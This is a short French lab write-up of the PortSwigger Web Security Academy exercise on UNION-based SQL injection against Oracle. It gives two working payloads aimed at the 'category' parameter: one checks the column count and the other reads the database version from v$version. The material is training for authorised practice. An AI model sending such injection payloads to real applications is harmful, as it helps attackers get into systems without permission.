

# Lab 003 — SQL injection UNION (Oracle)

**Plateforme :** PortSwigger Web Security Academy

## Objectif

Récupérer la version de la base de données Oracle avec une injection SQL `UNION`.

## Étapes

1. Intercepter la requête qui utilise le paramètre `category`.
2. Vérifier que la requête retourne deux colonnes texte :

```text
' UNION SELECT 'abc','def' FROM dual--
```

3. Afficher la version Oracle :

```text
' UNION SELECT BANNER,NULL FROM v$version--
```

## Résultat

La valeur `BANNER` de `v$version` est affichée dans la réponse.



Cette capture montre la validation des deux colonnes, puis la charge utile utilisée pour récupérer la version de la base Oracle.

> Lab PortSwigger réalisé dans un environnement autorisé.
